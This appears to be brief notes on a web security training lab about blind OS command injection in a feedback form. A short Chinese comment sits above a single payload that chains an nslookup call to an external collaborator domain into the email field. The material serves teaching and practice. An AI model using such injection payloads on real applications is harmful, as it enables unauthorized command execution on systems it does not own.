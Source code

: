 # Lab: Blind OS command injection with out-of-band interaction

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

## OS command injection
* 這題說要用 nslookup，只能用他提供的
```
payload = 123@123.com||nslookup burpcollaborator.net||
```